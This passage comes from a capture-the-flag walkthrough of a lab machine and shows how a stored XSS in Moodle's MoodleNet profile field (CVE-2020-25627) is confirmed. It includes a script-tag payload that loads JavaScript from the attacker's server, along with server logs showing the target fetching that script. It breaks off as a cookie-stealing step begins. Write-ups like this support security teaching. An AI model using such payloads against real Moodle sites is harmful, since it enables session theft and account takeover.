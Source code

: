 ![image-20210401142418761](https://0xdfimages.gitlab.io/img/image-20210401142418761.png)

## Shell as www

### Moodle Access as Manuel

#### XXS POC

Any time I see a CTF machine suggest that someone will be checking things, I wonder if that’s a hint to some kind of automation, and in this case, would fit with the XSS vulnerabilities I already noticed. [This security report](https://moodle.org/mod/forum/discuss.php?d=410839#p1657001), MSA-20-0011: Stored XSS via moodlenetprofile parameter in user profile, seems to pull all of this together (CVE-2020-25627).

On the profile page, there’s a field for MoodleNet profile:

![image-20210401144331846](https://0xdfimages.gitlab.io/img/image-20210401144331846.png)

To see if this will work, I’ll create a simple payload that attempts to load a script from my server:

```

<script src="http://10.10.14.7/pwn.js"></script>

```

I’ll start a Python HTTP server (`python3 -m http.server 80`), and submit that as the MoodleNet profile. Almost instantly I get a hit back form my own IP trying to fetch the script:

```
10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -
10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -

```

The script does not exist, so my webserver returns 404 (and it looks like my browser tried a second time to fetch). That’s a good sign. It indicates that the `<script>` block was saved into the page, and if someone else tries to look at it, they will also try to load my script.

Less than a minute later, there’s another hit, from Schooled:

```
10.10.10.234 - - [05/Apr/2021 14:48:01] code 404, message File not found
10.10.10.234 - - [05/Apr/2021 14:48:01] "GET /pwn.js HTTP/1.1" 404 -
10.10.10.234 - - [05/Apr/2021 14:50:05] code 404, message File not found
10.10.10.234 - - [05/Apr/2021 14:50:05] "GET /pwn.js HTTP/1.1" 404 -

```

#### Steal Cookie

I’ll write a quick JavaScript payload that will generate a GET request back to me that includes the visiting user’s cookie:
